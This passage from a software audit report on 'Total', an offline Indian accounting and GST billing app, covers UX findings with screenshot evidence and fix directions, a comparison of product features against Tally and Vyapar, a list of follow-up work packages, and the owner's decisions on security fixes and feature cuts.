- Fix direction: a simple Business details screen under `simple/` (name, address, phone / e-mail,
  GSTIN, logo, bank details for the bill) — the rest stays in the full form. Make "Make your first
  bill" the empty Home's primary action; business details secondary.

#### UX-2 — high — simple — "Try with sample data" makes a bad first impression (and one figure looks wrong)
- Evidence: [simple-home-light.webp](shots/simple-home-light.webp) (top card "Enter what you had on day one — 0 of 4 parts
  entered"), [simple-stock-light.webp](shots/simple-stock-light.webp) (Notebook Pack −2 Box worth −700.00; **Office Chair −3 Nos worth
  +15,000.00**; Wireless Mouse −4 Nos worth +1,200.00; every "Selling price" blank),
  [simple-reports-doing-light.webp](shots/simple-reports-doing-light.webp) (This month: Sales ₹3,400, Cost of goods sold ₹0.00 → profit =
  sales), [simple-asktotal-light.webp](shots/simple-asktotal-light.webp) ("what you sold cost you ₹0.00").
- Scenario: the demo is what a curious shop owner opens first. It nags to enter opening balances in
  a sample shop, shows negative stock as "Out of stock", no prices, and a month where goods cost
  nothing. A negative quantity carrying a POSITIVE worth (Office Chair, Mouse) next to one carrying a
  negative worth (Notebook) is either a valuation display bug or an incoherent seed — **verify
  against the Stock summary / valuation engine**.
- Auditor's note (verified): this is the owner-accepted rule "a sale from empty stock is costed at ₹0" (triage §1): the quantity goes down and the worth does not. The rule may stay, but the sample company must never hit it, and the simple Stock list should not show a positive worth next to a negative quantity without saying why.
- Fix direction: seed a coherent sample (openings applied or `startedFresh`, stock never below zero,
  selling prices on the default level, purchases dated before sales so COGS is real). Separately
  decide how the simple Stock list shows a negative balance (say "sold more than you recorded buying").

#### UX-3 — high — accountant — Sales voucher party picker lists every ledger
- Evidence: [acct-voucher-sales-light.webp](shots/acct-voucher-sales-light.webp) — "Party (buyer)" opens with Bharat Steel Suppliers
  (Sundry Creditors), Cash, CGST Input, CGST Output, Gujarat Components (Creditors), HDFC Bank, IGST
  Input … alphabetically.
- Scenario: a CA keying a sales bill (F8) must type enough letters to dodge creditors and tax
  ledgers; tax ledgers as a "buyer" invite mis-posting. Tally limits the party list on sales to
  debtors / creditors / cash / bank and orders by usage.
- Fix direction: scope the party list per voucher type (debtors first, then cash/bank, creditors;
  never Duties & Taxes / income / expense), recent-first, and don't open the list on autofocus.

#### UX-4 — medium — accountant (and both) — GST returns open on the running month, not the one due
- Evidence: [acct-gstr1-light.webp](shots/acct-gstr1-light.webp), [acct-gstr3b-dark.webp](shots/acct-gstr3b-dark.webp) (both "November 2026" on 7 Nov), vs
  [acct-gateway-light.webp](shots/acct-gateway-light.webp) compliance card "GST returns · Oct 2026 — GSTR-1 in 4 days, GSTR-3B in 13
  days" and simple Home "₹11,785.50 by 20 Nov".
- Scenario: a CA opening GSTR-1 on the 7th to file October sees a week of November first, and must
  re-pick the month every time.
- Fix direction: default the period picker to the period whose return is next due (the one the
  compliance card names); remember the last chosen period per company.

#### UX-5 — medium — simple — Section pages are thin link farms; Taxes is mostly hand-offs
- Evidence: [simple-taxes-section-light.webp](shots/simple-taxes-section-light.webp) (regular GST: "GST … to pay — GSTR-3B", "GST on your
  sales — GSTR-1 [Full app]", "Check supplier bills against the GST portal [Full app]", "TDS [Full
  app]", "TCS [Full app]"); scratch `simple-sell-section.png` (4 cards, 80 % empty canvas);
  `simple-reports`/`simple-settings` the same pattern.
- Scenario: every sidebar click lands on a hub with no figures or explanation, so every task is two
  clicks; on Taxes the owner sees form codes and three "Full app" exits before the plain GST screen.
  A fresh company's Taxes hub has no "your first return is due on …" teaching.
- Fix direction: either list a section's entries under the sidebar item, or make hubs useful (the
  one figure / status per card, last 5 entries, the due date on Taxes). On Taxes open the plain
  GST screen directly; demote "Full app" items to a "For your CA" group as Reports does.

#### UX-6 — medium — simple — Amounts, dates and chips are set in a monospace font
- Evidence: `src/renderer/src/app.css:237-240` (`.num { font-family: var(--font-mono) }`, IBM Plex
  Mono); every simple screenshot — tile figures "₹1,49,000.00", "Nothing to pay by 20 Nov" (a whole
  sentence in mono), header chip "This year: Apr 2026 – Mar 2027", date inputs "7 Nov 2026", "1 of 6
  setup steps done", "5 rows".
- Scenario: in simple mode the home tiles read like terminal output; words in mono look like code.
- Fix direction: IBM Plex Sans with `tabular-nums` for figures (it has tnum); keep mono, if at all,
  for dense accountant tables and identifiers (GSTIN, voucher numbers). Never on sentences / dates.

#### UX-7 — medium — both — Autofocused pickers open their list over the form
- Evidence: [simple-makebill-light.webp](shots/simple-makebill-light.webp) (customer list covers "What was sold?"),
  [simple-moneyin-light.webp](shots/simple-moneyin-light.webp) (list hides the Amount field entirely), Record a purchase same,
  [acct-voucher-sales-light.webp](shots/acct-voucher-sales-light.webp) (party list covers item row and totals).
- Scenario: the user arrives and the first thing they see is a dropdown hiding the next field; the
  1024×700 window shows even less.
- Fix direction: focus the field without opening the list; open on typing / ↓ / click.

#### UX-8 — medium — simple — Header is crowded and inconsistent
- Evidence: [simple-home-light.webp](shots/simple-home-light.webp) (7 chips: period, Accountant view, ⋯, Ask Total ⌘J, Help ?,
  Dark, Search ⌘K) vs [simple-makebill-light.webp](shots/simple-makebill-light.webp) (Accountant view + ⋯ move into the page header);
  ~96 px empty gutter left of the business name in every shot; the theme chip is labelled with the
  TARGET ("Dark" while light, "Light" while dark — reads as current state); the period chip shows on
  Make a bill / Money in where it means nothing.
- Fix direction: one place for Accountant view; a sun/moon icon toggle with an aria-label; drop the
  period chip on entry screens; align the business name with the content column.

#### UX-9 — medium — simple — A fresh business is nagged about GST months before it used Total
- Evidence: [simple-home-after-first-bill.webp](shots/simple-home-after-first-bill.webp) — company set up today ("Starting fresh", default
  "Start of this financial year (1 Apr 2026)"), one ₹590 bill → "Needs attention: The GST files for
  Oct 2026 are not prepared yet", and the GST tile says "Nothing to pay by 20 Nov" right after
  collecting ₹90 GST (that tax is due 20 Dec and is not mentioned).
- Scenario: the owner's first Home after the first bill shows a red-dot task about a month with no
  data, and a GST tile that seems to ignore the bill just made.
- Fix direction: when "Starting fresh", default the start to Today (FY start stays the choice for a
  continuing business); count GST periods from the first entry for a fresh start; the GST tile can
  add "₹90 collected this month — due 20 Dec".

#### UX-10 — medium — accountant — Trial balance / P&L / BS defaults a CA would change every time
- Evidence: [acct-tb-light.webp](shots/acct-tb-light.webp) (flat ledger list, Group = None, "as on 31-Mar-27" on 7 Nov 2026,
  only Debit / Credit closing columns), `acct-pnl` / `acct-bs` scratch shots (31-Mar-27).
- Scenario: Tally users expect a group-wise TB (expand to ledgers), opening / transactions / closing
  columns, and "as on" today. Future as-on dates also hide that post-dated entries are included.
- Fix direction: default as-on = min(today, FY end); default grouping by group with expand-all; an
  "Opening / Dr / Cr / Closing" column set; previous-year comparative toggle visible on P&L / BS.

#### UX-11 — medium — accountant — The sidebar overflows at 1280×800 and auto-scrolls away
- Evidence: [acct-gstr1-light.webp](shots/acct-gstr1-light.webp), [acct-gstr3b-dark.webp](shots/acct-gstr3b-dark.webp) (sidebar starts at "Stock journal" —
  Gateway / Voucher entry / Masters scrolled out), scratch `acct-settings.png`.
- Scenario: ~45 nav items in 8 sections; after navigating to GST or System the top items are gone,
  so going back to Voucher entry needs a scroll or a shortcut the user may not know.
- Fix direction: keep the top block pinned, collapse inactive sections, or a "favourites" strip;
  don't scroll the nav on navigation unless the active item is off-screen.

#### UX-12 — medium — accountant — Company switching is a full-screen round trip
- Evidence: scratch `acct-company-switch.png` — Switch company closes the books and shows the splash
  list (logo, one card per company, "Set up your business" as the primary button).
- Scenario: a CA with dozens of client companies has no in-shell switcher, no search, no recents,
  and the splash's primary action is a beginner's wizard.
- Fix direction: a ⌘O switcher overlay with type-to-filter and last-opened order; on the splash, make
  the company list primary when companies exist.

#### UX-13 — medium — simple — People list: clipped status chips and ambiguous "credit"
- Evidence: [simple-people-light.webp](shots/simple-people-light.webp) ("₹2,33,920.00 late · 23 day…" cut off; "₹42,135.60 credit" on
  a SUPPLIER and "₹29,276.00 credit" on a CUSTOMER — same word, opposite meaning to the owner);
  scratch `simple-person.png` (supplier with an advance: primary action "Record money out").
- Fix direction: let the status column wrap / widen; say "you paid ₹42,135.60 ahead" / "they paid
  ₹29,276.00 ahead"; on a supplier with an advance make "Record a purchase" primary.

#### UX-14 — medium — simple — Ask Total silently broadens a narrow question
- Evidence: [simple-asktotal-light.webp](shots/simple-asktotal-light.webp) — "how much did I spend on diesel" → "Your day-to-day costs
  came to ₹0.00 this month" (`src/main/assist/classify.ts:628` maps any "spend" to `expenses`).
- Scenario: the owner believes diesel cost ₹0. A confident wrong-scope answer is worse than "I can't".
- Fix direction: when the question names a thing the intent drops (an account / item word), resolve
  it through the search service (an expense account named Diesel / Fuel) or say "I can't split costs
  by 'diesel' yet — all day-to-day costs came to …".

#### UX-15 — medium — simple — Home quick actions look disabled
- Evidence: [simple-home-light.webp](shots/simple-home-light.webp), [simple-home-empty-light.webp](shots/simple-home-empty-light.webp) — "+ Sale", "+ Purchase", "Money
  in", "Money out" are beige-filled with a thin brown border, visually weaker than the amber primary
  buttons on every other screen (and the tour spotlight on "+ Sale" shows they read as inactive).
- Fix direction: make them the strongest controls on Home (filled primary or bordered white cards
  with icons); in dark mode the same.

#### UX-16 — low — simple — Inconsistent save bar and gutters across flows
- Evidence: [simple-makebill-light.webp](shots/simple-makebill-light.webp) (sticky SaveBar with total + key hints) vs
  [simple-moneyin-light.webp](shots/simple-moneyin-light.webp) (inline footer, no amount shown in the bar); page gutter 228 px vs 232 px.
- Fix direction: one SaveBar for every write flow (Money in / out / Move included), one page padding.

#### UX-17 — low — simple — English-only, technical ⌘K footer in simple mode
- Evidence: scratch `simple-palette.png`; `src/renderer/src/components/CommandPalette.tsx:417-430`
  ("Filters:" literal + `amt:>50000 date:apr fy:2026 type:sales gstin:27AAP party:acme`), placeholder
  "search the books — name, number, GSTIN, amount…". The component lives outside `simple/`, so the
  simple lint never sees it; a Hindi user gets this English.
- Fix direction: hide syntax hints in simple mode (or show "Try: Ramesh, 5000, bill 12" via t()).

#### UX-18 — low — accountant — Voucher entry keyboard path walks through e-way bill fields
- Evidence: Tab order on a new sales invoice: No. → Date → Party → Sales ledger → Item → Qty → Rate →
  Discount → Narration → **Vehicle no. → Transporter ID → Distance** → GST details → Cancel; the sweep
  flags one unlabeled `input-line-qty`.
- Scenario: Tally-speed entry wants Enter-driven flow date → party → items → (accept) with optional
  dispatch details in a sub-screen; Cancel is reached before Save.
- Fix direction: move e-way fields into the collapsed GST/dispatch section; Enter-to-advance through
  item rows; Save before Cancel in tab order; label the trailing blank row's qty.

#### UX-19 — low — accountant — Sandbox "Send to the portal (test mode)" card on every GST return
- Evidence: [acct-gstr1-light.webp](shots/acct-gstr1-light.webp), [acct-gstr3b-dark.webp](shots/acct-gstr3b-dark.webp) — the Test GSP card with "Sign in to the
  portal (OTP)" sits above the figures for every company.
- Fix direction: move to Options / Settings → NIC live filing until it is real; keep the table first.

#### UX-20 — low — both — Mixed number abbreviations on the Gateway
- Evidence: [acct-gateway-light.webp](shots/acct-gateway-light.webp) — "₹67.3K", "₹3L", "₹2.3L · ₹2.9L", "Cash ₹64.5K · Bank ₹84.5K".
- Fix direction: Indian short forms consistently (₹67.3 K → ₹0.67 L or full "₹67,282"), never mixing K and L.

#### UX-21 — low — simple — First-run screen offers too many exits
- Evidence: [wizard-step1-light.webp](shots/wizard-step1-light.webp) — below the wizard: "Try with sample data", then "For
  accountants · New company (full form) · Sample data in the full app · Open a backup file" (the first
  is a label styled like the links next to it).
- Fix direction: one secondary line "I'm an accountant / I have a backup" that expands; style the label
  as a label.

#### UX-22 — low — both — Company select shows a hard-coded data folder
- Evidence: scratch `acct-company-switch.png` shows "~/Documents/total" while the run's data lived in a
  scratch `TOTAL_DATA_DIR`; `src/shared/updateText.ts:12`, `CompanySelect.tsx:144`.
- Scenario: wrong whenever the data root is moved / redirected (OneDrive Documents on Windows, the
  data-folder move).
- Fix direction: show the actual data root from main.

---

### What's good
- Wizard: plain, one question per step, errors under the field, a "You chose" summary, language first,
  "I have an accountant" escape hatch; finish → Home in 0.6 s.
- Simple screens pass the repo's own sweeps in both themes: no banned words, no unlabeled controls,
  no contrast failures, visible focus rings; skip link present; Esc layering works.
- Empty states (Sales, Bank) teach with one action + "Learn how" — exactly right.
- Make a bill: refuses to guess the GST rate and says so under the field; save card with Print /
  PDF / Share / Undo is clear; "Prints as: Tax invoice" is a nice touch.
- Every Home figure has a "Why?"; Ask Total answers offline with sourced figure chips and links.
- Help panel is genuinely useful, offline, contextual to the screen.
- Dark theme is coherent (both modes), not an inverted afterthought.
- Accountant mode: Tally-style F-keys (F5–F9) on the Gateway and voucher entry, ledger drill-down
  with running balance and Dr/Cr, DataTable with filter / columns / PDF / CSV / Excel everywhere, CA
  pack and Tally XML on Registers.
- Launch is quick after the first time (1.2–2.5 s), demo creation ~0.5 s.

### Screenshots in docs/audit/shots/ (WebP, q70, 1280 px wide, 680 KB total, 21 files)
- [wizard-step1-light.webp](shots/wizard-step1-light.webp), [wizard-gst-step-light.webp](shots/wizard-gst-step-light.webp)
- [simple-home-empty-light.webp](shots/simple-home-empty-light.webp), [simple-home-light.webp](shots/simple-home-light.webp), [simple-home-dark.webp](shots/simple-home-dark.webp), [simple-home-1024.webp](shots/simple-home-1024.webp),
  [simple-home-after-first-bill.webp](shots/simple-home-after-first-bill.webp), [simple-business-details-handoff.webp](shots/simple-business-details-handoff.webp)
- [simple-makebill-light.webp](shots/simple-makebill-light.webp), [simple-moneyin-light.webp](shots/simple-moneyin-light.webp), [simple-people-light.webp](shots/simple-people-light.webp),
  [simple-stock-light.webp](shots/simple-stock-light.webp), [simple-reports-doing-light.webp](shots/simple-reports-doing-light.webp), [simple-taxes-section-light.webp](shots/simple-taxes-section-light.webp),
  [simple-asktotal-light.webp](shots/simple-asktotal-light.webp)
- [acct-gateway-light.webp](shots/acct-gateway-light.webp), [acct-gateway-dark.webp](shots/acct-gateway-dark.webp), [acct-voucher-sales-light.webp](shots/acct-voucher-sales-light.webp), [acct-tb-light.webp](shots/acct-tb-light.webp),
  [acct-gstr1-light.webp](shots/acct-gstr1-light.webp), [acct-gstr3b-dark.webp](shots/acct-gstr3b-dark.webp)

#### Screenshot gallery (selection)

| Simple Home (sample data) | Simple Stock (negative stock, positive worth) |
|---|---|
|  |  |
| **First setup step lands in the accountant form** | **Accountant Gateway (dark)** |
|  |  |
| **Sales invoice party picker lists every ledger** | **GSTR-3B opens on the running month** |
|  |  |

---

## 4. Product

Scale check first: the app is ~320k lines of TypeScript (shared 88k, main 125k, renderer 111k), 91 registered screens, ~509 test files, 31 `ai:*` channels plus `assist:*`, `assistants`, `capture:*` families. For a 1.0 aimed at a shop owner and their CA, the surface is the risk, not the lack of features.

### 4.1 Overlapping or confusing features — keep / merge / cut

| ID | Area | What overlaps | Recommendation | Why |
|---|---|---|---|---|
| PROD-1 (high) | AI entry points | Five doors: **Ask Total** (deterministic, ⌘J in simple mode), the **AI chat drawer** (⌘J in accountant mode; escalation target in simple), **Explain this** buttons, **Capture** (bill reading), **Assistants** (close checklist, anomalies, 2B mismatches — deterministic, with "Run with AI"), plus the palette's "Ask AI" row and Banking's "Categorise unmatched". Evidence: `src/main/assist/`, `src/main/ai/agent.ts`, `components/ai/AssistantPanel.tsx`, `simple/AskTotal.tsx`, `simple/ai/SimpleAiDrawer.tsx`, `ipcAssistants.ts`. | **Merge** into ONE box + ONE approval queue (Phase 3 already plans this): a single "Ask" panel that answers deterministically first and escalates to the model when a key is set; Capture becomes "Add bills" inside the same queue; Assistants become rows of Home's "Needs attention" (simple) and a "Month-end" tab (accountant). Keep Explain-this as a shortcut that opens the same panel. | A first-time user cannot tell Ask Total from "the AI"; two panels with the same shortcut by mode; deterministic checks shown in three places (Home attention, Assistants, Taxes steps). |
| PROD-2 (medium) | Sales entry | Six ways to make a sale: simple **Make a bill**, simple **Quick bill** (= the Counter screen in the simple shell), accountant **Counter billing**, accountant **voucher entry → Sales**, **Ask Total** offer, **AI draft**. | **Keep** Make a bill (simple) and voucher entry (accountant); **merge** Quick bill / Counter into a "counter mode" toggle of Make a bill (same intent, bigger keys, no customer); AI/Ask Total only pre-fill Make a bill (already so). | Two counter screens + two invoice editors double every GST/print fix; Quick bill is the old accountant Counter re-titled. |
| PROD-3 (medium) | Hidden-until-used features | Cost centres, cheques/PDC/bulk files, interest on overdue bills, fixed assets, trade cycle (quotations/orders/challans/GRNs), payroll statutory — hidden but fully alive (services, IPC, migrations, e2e 22/24/26/27/32/34/69/72). | Phase 6 already says "remove for good the hidden features nobody asked for". Decide per feature: **keep hidden** trade cycle (challans/GRNs matter to traders and manufacturers) and cheques/PDC (common in Indian B2B); **cut** interest-on-overdue, fixed-asset register and payroll statutory (PF/ESI/PT) for 1.0 — each carries UNVERIFIED tax points and its own CA review, and payroll is a different product. Cost centres: keep hidden. | Every hidden feature still costs CI minutes, migrations, review effort and UNVERIFIED rules; "More features" lets anyone turn them back on, so they are not really hidden from support. |
| PROD-4 (medium) | Reports in simple vs accountant | Simple Reports (How am I doing, Cash next 30, Who owes, By month), Home tiles, Assistants close checklist, accountant Analysis (ratios, comparatives, cash forecast, item demand, stale documents, exceptions, three-way match, item profitability). | **Keep** simple Reports and Home; in accountant mode **merge** "exceptions", "stale documents" and the Assistants anomalies into one "Checks" screen; **cut** item-demand and three-way-match from the default nav unless the trade cycle is on. | 14+ analysis screens for a 1-person shop's CA; most are never opened (no usage data — see PROD-12). |
| PROD-5 (low) | Two help systems | Simple mode has a help panel with 16 articles (en/hi) and a tour; accountant mode only has the ? shortcut list. | **Keep** but give accountant mode the same panel (articles about GST returns, year-end, imports) — CAs are the ones reading docs. | Accepted in triage for 1.0; fine to defer. |
| PROD-6 (low) | Payroll | Payroll basic (salaries) is a feature flag (off for wizard companies, `presetFeatures`); statutory hidden. | **Cut from 1.0 nav** unless a preset needs it (restaurant/manufacturer with staff), or keep only "Pay salary" as a Money out category (already exists). | Shops pay salary as an expense; full payroll without PF/ESI is half a feature. |

### 4.2 Gaps vs what Indian shops and CAs use (Tally Prime 6.x, Vyapar, myBillBook, Zoho Books, Busy)

Ranked by how often a real user would hit them. Sources at the end of the section.

| ID | Gap | Who has it | Severity for 1.0 |
|---|---|---|---|
| PROD-7 | **Share the invoice** from the bill: WhatsApp (PDF + message), e-mail, macOS share sheet. Today `wa.me` is used only for payment reminders (`simple/people/ReminderPanel.tsx`), there is no "send this bill" action. | Vyapar, myBillBook (core selling point), Zoho | **High** — already in Phase 3 ("Share"); make it a 1.0 must. |
| PROD-8 | **UPI QR / payment link on the invoice print** (static UPI VPA QR with the amount). No `upi://pay` anywhere in `src/`. | Vyapar, myBillBook, Zoho (payment links) | **High value, low effort** — a field in Business details + a QR on the print. |
| PROD-9 | **Live e-invoice / e-way bill** — the gateway is sandbox-only and has never run against a real portal (`gstGateway/`, `nic.ts`). Tally/Busy/Vyapar file them live. | Tally, Busy, Vyapar | Accepted for 1.0 (owner: sandbox only); say so clearly in the app and the site. |
| PROD-10 | **Mobile / second device**: no phone app, no sync between two computers (offline by design). Shop owners expect to make a bill or check dues on the phone. | Vyapar, myBillBook, Zoho, Tally (mobile reports) | Accept for 1.0 (offline promise); post-1.0 candidate: read-only phone view over the local network or an encrypted sync file. |
| PROD-11 | **Thermal / POS**: an 80 mm receipt template exists (`shared/printTemplates.ts:523`) and the Counter screen matches barcodes typed by a scanner (`screens/CounterBilling.tsx:94`), but there is no 58 mm (2-inch) layout — the most common cheap printer in Indian shops — and the simple Make a bill has no barcode box. | Vyapar, Marg, Busy | Low-medium — add a 58 mm template and a scan box to Make a bill when stock is on. |
| PROD-12 | **No usage insight at all** (by design, no telemetry) — so cut/keep decisions are guesses. | — | Medium — add an opt-in, local-only "features used" list the owner can choose to share in a support e-mail. |
| PROD-13 | **IMS (Invoice Management System) accept/reject/hold** of inward invoices — GSTN's 2024–25 flow; Tally 6.1 has it. Total has 2B matching only. | Tally 6.1, Busy, Zoho | Medium — natural Phase 4 addition once a GSP is chosen. |
| PROD-14 | **TDS returns (26Q/24Q) file** — Total computes TDS and shows payables; the 26Q is "RPU input" only (triage §4). | Tally, Busy | Low for shops; medium for CAs. Post-1.0. |
| PROD-15 | **Connected banking** (bank feeds) — statement import only. | Tally 6.0 (ICICI, etc.) | Low for 1.0 (needs bank partnerships); keep the file import excellent. |

### 4.3 Future suggestions after 1.0, ranked by value ÷ effort

1. **UPI QR on invoices + share-to-WhatsApp of the bill PDF** (small, every shop sees it daily). *If not done for 1.0.*
2. **Opt-in local usage counter** to drive the next cuts (small).
3. **Read-only phone companion** over the LAN (QR pairing; dues, today's sales) — medium effort, very high value for owners away from the counter.
4. **IMS accept/reject** through the GSP (medium, CA value).
5. **58 mm thermal template + scan box in Make a bill** (small, retail/restaurant presets).
6. **Accountant help panel + "for your CA" export bundle polish** (small).
7. **Multi-company dashboard for CAs** (one CA, 20 clients' books folders): open/switch fast, see each client's GST due dates in one list (medium; CAs are half the user base per the owner).
8. **Live GSP filing + billing** (large; already the post-1.0 plan).
9. **Encrypted sync file between two Macs** (large; conflicts are hard with an audit chain).

**Sources for §4.2** (vendor and reseller pages, treated as the vendors' own claims): [Vyapar business software](https://vyaparapp.in/business-management-software), [Vyapar on TechJockey](https://www.techjockey.com/detail/vyapar), [Vyapar vs Busy](https://vyaparapp.in/comparison-with-other-apps?brand=busy), [Tally What's new](https://tallysolutions.com/whats-new/), [TallyPrime 6.1 update](https://tallysolutions.com/darpan/product-update-tallyprime-6-1-your-business-now-smarter-than-ever), [TallyPrime banking](https://tallysolutions.com/tally-prime-banking-accounting), [Busy vs Zoho](https://busy.in/busy-vs-zoho/), [myBillBook on the App Store](https://apps.apple.com/us/app/id1612498254).

---

## 5. Proposed follow-up work packages

Each is sized to be one PR. Severity is the highest finding it closes. "Figures" means existing books' reported numbers move, so the package needs an upgrade diff and the owner's sign-off (plan rule).

| WP | Title | Scope | Severity | Figures? |
|---|---|---|---|---|
| A1 | ~~Outstandings: `against` on a balance-raising entry~~ **DONE — PR #233** (engine fix, Tally semantics; COR-2 editor tick; Busy mapping needs no change) | COR-1 engine fix (or refuse it at save, with the editors offering only "new" for such notes), COR-2 editor over-allocation, tests in `outstanding.test.ts` + the differential test, Busy import mapping | High | **Yes** |
| A2 | ~~Electron production hardening~~ **DONE — PR #225** (SEC-18 preload allowlist left open: optional) | SEC-1 menu/devtools, SEC-6 fuses, SEC-15 permission handler, SEC-18 preload allowlist, SEC-14 CSP in the PDF window | Medium | No |
| A3 | ~~Lock and user-switch privacy~~ **DONE — PR #238** (plus the other `canSeeProfit` gaps a sweep found: chart of accounts, ledger balances, cost-centre P&L, manufacture register / production / cost sheet, edit log, AI threads, `explain_figure`, dashboard stock turnover) | SEC-2 cache clear, SEC-11 margin gate, SEC-12 agent mirror and its TB, SEC-8 delete under the privacy lock, SEC-3 slug check, SEC-13 PIN backoff | Medium | No |
| A4 | ✅ DONE — PR #NNN. Update integrity | SEC-5 signed release manifest checked by the app (until notarised builds), SEC-10 URL check before `openExternal`; the `.totalbak` KDF raised to the envelope's N = 2^17 for new exports (SEC-9) | Medium | No |
| A5 | ~~Gateway secrets bound to their endpoint~~ **DONE — PR #225** | SEC-4: NIC/GSP secrets keyed by origin, https only, dropped when the address moves (same rule as the custom AI key) | Medium | No |
| A6 | ~~Site security and privacy~~ **DONE — PR #242** | SEC-7 XSS + CSP/headers, SEC-17 waitlist privacy notice, retention and deletion | Medium | No |
| A7 | ~~First ten minutes~~ **DONE — PR #248** | UX-2 coherent sample company, UX-1 simple Business details screen, UX-15 / UX-21 Home and first-run actions, UX-9 no GST nags before the books begin | High | No (sample company only) |
| A8 | ~~CA defaults pack~~ **DONE — PR #249** (UX-3, UX-4, UX-10 — TB Group-wise as a header switch, not the default — UX-18) **+ PR #250** (UX-12 ⌘O switcher); UX-11 sidebar done earlier in 9a0cee9f | UX-3 party picker per voucher type, UX-4 return period due, UX-10 report dates and grouped TB, UX-12 company switcher, UX-18 tab order, UX-11 sidebar | High | No |
| A9 | Simple polish (input to the UI overhaul) | UX-5 section pages, UX-6 monospace, UX-7 pickers opening over the form, UX-8 header, UX-13 People chips/wording, UX-14 Ask Total narrow questions, UX-16/17/19/20/22 | Medium | No |
| A10 | Share and get paid | PROD-7 share the bill (WhatsApp / e-mail / share sheet), PROD-8 UPI QR on the print — **DONE — PR #239** | High (product) | No |
| A11 | Code-health floor | HEALTH-9 ESLint with react-hooks + `no-floating-promises` (fix or justify the 60 disables), HEALTH-7 replace e2e sleeps + a fast e2e subset on PRs + CI job timeouts, a `notDeletedLint` like `movesStockLint` (HEALTH-5), HEALTH-1 dead code, HEALTH-2/3/6 one helper each for dates, party side and rounding | Medium | No |
| A12 | Split `ipc.ts` | HEALTH-4: per-area handler files (the pattern already used by `ipcBanking.ts` etc.), no behaviour change | Medium | No |
| A13 | Feature cuts for 1.0 | Whatever the owner adopts from §4.1 (PROD-1…PROD-6). a) Quick bill merged into Make a bill **DONE — PR #240**; b) cut interest / fixed assets / payroll statutory **DONE — PR #243**; c) one Checks screen **DONE — PR #245** | — | Possibly (only if a cut feature's data must keep reading) |

Already planned elsewhere and therefore not listed: #207 SEZ/LUT/e-invoice bugs (Phase 2, should go first there), launch time and main-thread SQLite (Phase 5, HEALTH-8 lists concrete levers), AI single queue (Phase 3, PROD-1 is its acceptance test).

---

## 6. Owner decisions

Answered by the owner on 7 November 2026 (AskUserQuestion, recommended options shown first):

| Question | Owner's answer | What follows |
|---|---|---|
| Start the four most important security fixes now? | **Yes, all four now.** | A2 (devtools + fuses), A3 (cache cleared on lock and user switch), A5 (portal secrets bound to their address, https only) and A6 (site XSS + CSP) start now as their own PRs. A4 (update integrity) and the rest of A3 follow. |
| One AI door for 1.0? | **Yes, merge into one.** | One "Ask" panel that answers by itself first and uses the AI when a key is set. Capture and the month-end checks feed the same approval list. This becomes the acceptance goal of Phase 3, and the extra doors are removed when it lands. |
| Other cuts and merges | **All four adopted:** merge Quick bill into Make a bill; cut interest on overdue bills, the fixed-asset register and payroll PF/ESI/PT (old books keep reading); merge Exceptions, stale documents and Assistants anomalies into one "Checks" screen; add share-the-bill + UPI QR for 1.0. | A13 splits into: one PR for the Quick bill merge, one for the three cuts, one for the Checks screen. A10 (share + UPI QR) becomes a 1.0 must. |
| A13 follow-ups (8 Nov) | **Always-on scan box is fine; add change due to Make a bill. Payroll cut: new pay runs stop deducting PF / ESI / PT; the cash forecast keeps old PF / ESI / PT dues exactly as today.** | Change due added in PR #240; the payroll answers apply to A13b. |
| The Outstandings figure bug (COR-1) | **Fix it, with a before/after report for the owner's sign-off.** | A1: the `against` reference on a balance-raising entry adds to the bill, as in Tally. Upgrade diff on the demo and test books, signed off by the owner before merge. |
